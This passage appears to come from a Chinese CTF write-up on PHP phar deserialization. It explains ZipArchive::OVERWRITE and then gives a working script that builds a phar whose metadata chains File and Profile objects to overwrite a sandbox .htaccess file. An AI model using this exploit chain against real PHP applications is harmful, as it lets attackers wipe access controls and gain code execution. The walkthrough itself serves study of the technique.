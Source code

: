<img src="/home/cookie/Pictures/blogs/9.png" style="zoom:50%;" />

**ZIPARCHIVE::OVERWRITE** ([integer](https://www.php.net/manual/zh/language.types.integer.php))

总是以一个新的压缩包开始，此模式下如果已经存在则会被覆盖。

所以我们可以通过设置$filename为`.htaccess`的路径，然后通过这个办法将其覆盖。

```php
<?php
class File
{
    public $filename;
    public $filepath;
    public $checker;
    function __construct()
    {
        $this->checker = new Profile();
    }
    function __destruct()
    {
        if (isset($this->checker)) {
            $this->checker->upload_file();
        }
    }
}
class Profile
{
    public $username;
    public $password;
    public $admin;
    function __construct()
    {
        $this->admin = new ZipArchive();
        $this->username = '/var/www/html/sandbox/0a8a3ff9ed88d2847af85fde49c7e9ae/.htaccess';
        $this->password = ZIPARCHIVE::OVERWRITE;
    }
    function __call($name, $arguments)
    {
        $this->admin->open($this->username, $this->password);
    }
}
@unlink("test.phar");
$phar = new Phar("43.phar");
//后缀名必须为phar
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER();?>");
//设置stub
$o = new File();
$phar->setMetadata($o);
//将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test");
//添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
```
